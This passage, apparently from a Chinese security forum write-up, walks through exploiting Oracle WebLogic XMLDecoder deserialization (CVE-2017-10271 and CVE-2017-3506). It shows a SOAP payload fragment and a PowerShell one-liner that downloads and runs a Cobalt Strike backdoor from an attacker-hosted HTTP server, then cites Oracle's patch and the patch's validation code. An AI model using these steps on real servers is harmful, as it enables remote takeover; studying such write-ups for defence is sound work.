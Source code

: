 ```php
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

cs生成后门木马

![image-20210810105923024](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-46fd72fd8b55366654fcf1b1e609a983177e994c.png)

放在kali上，开启简易的http服务

![image-20210810110037377](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0e1a9ece415d046cf97f20abfa4da87e051d35f9.png)

powershell上线cs：

```php
powershell -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.10.65/zcc.exe','zcc.exe');start-process zcc.exe
```

![image-20210810111100065](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2e4a8545320be9c94ee88f4a055c06ade097f571.png)

![image-20210810110916447](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ef71c590208bf9f9080784f7f252ada0f7fdc73e.png)

成功上线cs

##### 安全防护

前往Oracle官网下载10月份所提供的安全补丁：

<http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html>

#### 2.XMLDecoder 反序列化漏洞 CVE-2017-3506

##### 漏洞简介

cve-2017-10271与3506他们的漏洞原理是一样的,只不过10271绕过了3506的补丁，CVE-2017-3506的补丁加了验证函数，验证Payload中的节点是否存在object Tag。

```php
private void validate(InputStream is){
 WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
 try {
 SAXParser parser =factory.newSAXParser();
 parser.parse(is, newDefaultHandler() {
 public void startElement(String uri, StringlocalName, String qName, Attributes attributes)throws SAXException {
 if(qName.equalsIgnoreCase("object")) {
 throw new IllegalStateException("Invalid context type: object");
 }
 }
 });
 } catch(ParserConfigurationException var5) {
 throw new IllegalStateException("Parser Exception", var5);
 } catch (SAXExceptionvar6) {
 throw new IllegalStateException("Parser Exception", var6);
 } catch (IOExceptionvar7) {
 throw new IllegalStateException("Parser Exception", var7);
 }
 }
```
